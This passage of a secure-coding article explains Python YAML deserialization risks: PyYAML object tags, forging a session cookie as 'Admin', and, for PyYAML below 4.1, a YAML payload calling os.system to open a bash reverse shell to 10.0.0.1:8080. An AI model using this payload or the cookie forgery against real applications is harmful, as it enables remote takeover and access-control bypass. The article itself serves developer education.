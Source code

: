 This will print a string like this:

```python
!!python/object:__main__.Person {name: Vickie}
```

To reconstruct the YAML file to the original Python object, applications call:

```python
yaml.load(YAML_FILE)
```

Similar to pickle deserialization issues, YAML loading gives attackers a way to forge arbitrary objects and achieve code execution.

### Authentication bypass

If the application uses user-supplied YAML for access control and does not check for integrity of the YAML file, a malicious user can potentially forge arbitrary YAML documents to bypass access control.

```python
class Person:
  def __init__(self, name):
    self.name = name

new_person = Person("Vickie")
session_cookie = base64_encode(yaml.dump(new_person))
```

For example, if the above code is used to generate the session cookie for a user, an attacker can simply generate a forged session cookie:

```python
class Person:
  def __init__(self, name):
    self.name = name

new_person = Person("Admin")
session_cookie = base64_encode(yaml.dump(new_person))
```

### Code Execution

If the application uses PyYaml < 4.1, it is also possible to achieve arbitrary code execution by providing the application with an os.system() command inside a YAML:

```python
!!python/object/apply:os.system ["bash -i >& /dev/tcp/10.0.0.1/8080 0>&1"]
```

## Other dangerous when developing in Python

Besides language-specific vulnerabilities, platform-agnostic issues like XSS, XXE, SQL injection and command injections are always something to be on the lookout for.

In addition, polluted packages and unpatched dependencies continue to be one of the biggest security concerns for Python developers. So be sure to pay attention to those as well!